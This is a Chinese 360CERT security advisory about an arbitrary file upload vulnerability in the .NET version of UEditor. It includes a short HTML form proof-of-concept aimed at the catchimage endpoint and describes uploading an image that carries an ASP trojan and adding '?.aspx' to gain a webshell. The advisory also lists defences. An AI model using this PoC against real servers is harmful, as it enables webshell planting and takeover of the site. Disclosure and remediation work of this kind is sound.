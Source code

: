```yaml
---
id: 15e86d6054f506af058657851a4783c3
title: UEditor .Net版本任意文件上传漏洞
tags: 
  - 安全资讯
  - 360CERT
---
```


# UEditor .Net版本任意文件上传漏洞

0x00 漏洞背景
---------


UEditor 是由百度「FEX前端研发团队」开发的所见即所得富文本web编辑器，具有轻量，可定制，注重用户体验等特点，开源基于MIT协议，允许自由使用和修改代码。


0x01 漏洞影响
---------


该漏洞影响UEditor的.Net版本，其它语言版本暂时未受影响。


0x02 漏洞详情
---------


UEditor在抓取远程数据源的时，会进入"catchimage"分支：


![alt](https://p403.ssl.qhimgs4.com/t0137747c8f22bcae14.jpeg)


在该方法使用的CrawlerHandler类中，并未对文件类型进行验证，从而导致了任意文件上传漏洞。


下图为[1.5.0版本](https://github.com/fex-team/ueditor/blob/dev-1.5.0/net/App_Code/CrawlerHandler.cs)


![alt](https://p403.ssl.qhimgs4.com/t010485ca43c13a4dc1.png)


漏洞检测Poc如下：



```
<form action="http://xxxxxxxxx/controller.ashx?action=catchimage"enctype="application/x-www-form-urlencoded" method="POST">
<p>shell addr:<input type="text" name="source[]" /></p >
<inputtype="submit" value="Submit" />
</form>

```
![alt](https://p403.ssl.qhimgs4.com/t015726d472c12d544a.jpeg)


攻击者可以先上传一张包含asp木马的正常图片，之后在shell addr中填入该图片的地址并在末尾加入?.aspx，如xxx.jpg?.aspx，提交后即可getshell。


![alt](https://p403.ssl.qhimgs4.com/t01fdd6ca86321b668f.jpeg)


0x03 防御措施
---------


1. 修改工程目录下net/App\_Code/CrawlerHandler.cs文件，添加对文件类型检查的代码。
2. 使用各类WAF软件，防止攻击者上传恶意文件。
3. 检查文件上传路径下是否有近期上传的畸形图片；检查是否存在asp，aspx等类型危险文件。如果发现异常文件，请判断后及时删除。


0x04 时间线
--------


**2018-08-22** 漏洞详情公开披露


**2018-08-22** 360CERT发布漏洞预警


0x05 参考链接
---------


1. [UEditor .net版本 getshell](https://www.jianshu.com/p/6dae608b617c?from=timeline&isappinstalled=0)


